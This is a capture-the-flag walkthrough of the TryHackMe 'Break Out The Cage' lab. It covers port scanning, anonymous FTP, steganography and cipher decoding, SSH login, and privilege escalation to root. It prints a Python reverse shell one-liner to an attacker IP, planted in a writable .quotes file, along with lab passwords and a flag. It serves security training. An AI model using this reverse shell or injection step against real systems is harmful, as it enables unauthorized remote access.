 # TryHackMe-BreakOutOfCage


## NMAP

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-19 16:33 PKT
Nmap scan report for 10.10.4.108
Host is up (0.24s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.94.60
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
|_  256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Nicholas Cage Stories
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.39 seconds

```

## FTP

```
ftp 10.10.4.108
Connected to 10.10.4.108.
220 (vsFTPd 3.0.3)
Name (10.10.4.108:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 25 23:32 .
drwxr-xr-x    2 0        0            4096 May 25 23:32 ..
-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
226 Directory send OK.
ftp> 
```

We get some base64 encoded text in `dad_tasks` on decoding it 

```
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl

```

## Gobuster

```
gobuster dir -u http://10.10.4.108 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.4.108
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/19 16:46:39 Starting gobuster
===============================================================
/images (Status: 301)
/html (Status: 301)
/scripts (Status: 301)
/contracts (Status: 301)
/auditions (Status: 301)
Progress: 62135 / 220561 (28.17%)
===============================================================
2020/10/19 17:04:57 Finished
===============================================================

```


`wget http://10.10.4.108/auditions/must_practice_corrupt_file.mp3`


## Steganography

### Audacity
<img src="https://imgur.com/KtPjoZ1.png"/>


### Sonic Visualizer

<img src="https://imgur.com/teGZ6sc.png"/>

By selecting `spectrogram` we can view it which is `namelesstwo` now by using Vigenere cipher we can decode the text which is 


```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes
```


`Mydadisghostrideraintthatcoolnocausehesonfirejokes` this may be a password for user `weston` because he set up the website

## SSH

```
weston@10.10.4.108's password:                                            
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)                                                                                 
                                                                          
 * Documentation:  https://help.ubuntu.com                                
 * Management:     https://landscape.canonical.com                        
 * Support:        https://ubuntu.com/advantage                           

  System information as of Mon Oct 19 12:28:23 UTC 2020                   

  System load:  0.0                Processes:           89                                                                                          
  Usage of /:   20.3% of 19.56GB   Users logged in:     0                 
  Memory usage: 32%                IP address for eth0: 10.10.4.108                                                                                 
  Swap usage:   0%                   


39 packages can be updated.          
0 updates are security updates.                                           


         __________                  
        /\____;;___\                 
       | /         /                 
       `. ())oo() .                  
        |\(%()*^^()^\                
       %| |-%-------|                
      % \ | %  ))   |                
      %  \|%________|                
       %%%%                          
Last login: Tue May 26 10:58:20 2020 from 192.168.247.1                   
weston@national-treasure:~$ ls -la

```

## Privilege Escalation (Cage)

We got a low privileged user shell (weston) in order to elevate to root we have to get `cage` shell for that visit `/opt` there you will find a python file and a hidden `.quotes` we can edit that file so delete the file create a new `vim .quotes` file copy and paste the below reverse shell with some text in first

```
"pwn" && python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.94.60",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
and start listening for revere shell (netcat).


```
cage@national-treasure:~/email_backup$ cd ..
cage@national-treasure:~$ ls -la
total 56
drwx------ 7 cage cage 4096 May 26 21:34 .
drwxr-xr-x 4 root root 4096 May 26 07:49 ..
lrwxrwxrwx 1 cage cage    9 May 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 cage cage  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 cage cage 3771 Apr  4  2018 .bashrc
drwx------ 2 cage cage 4096 May 25 23:20 .cache
drwxrwxr-x 2 cage cage 4096 May 25 13:00 email_backup
drwx------ 3 cage cage 4096 May 25 23:20 .gnupg
drwxrwxr-x 3 cage cage 4096 May 25 23:40 .local
-rw-r--r-- 1 cage cage  807 Apr  4  2018 .profile
-rw-rw-r-- 1 cage cage   66 May 25 23:40 .selected_editor
drwx------ 2 cage cage 4096 May 26 07:33 .ssh
-rw-r--r-- 1 cage cage    0 May 25 23:20 .sudo_as_admin_successful
-rw-rw-r-- 1 cage cage  230 May 26 08:01 Super_Duper_Checklist
-rw------- 1 cage cage 6761 May 26 21:34 .viminfo
cage@national-treasure:~$ cat Super_Duper_Checklist 
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}
cage@national-treasure:~$ 



```
On visiting `/home/cage/email_backup/email_2`

We will again find a encoded text which is Vigenère 
`haiinspsyanileph`

Here we can see that focus is on `face` so that might be the key


## Privilege Escalation (Root)

`su root` with the password `cageisnotalegend`

Visit `/root/email_backup/email_2`

And you'll find the root flag.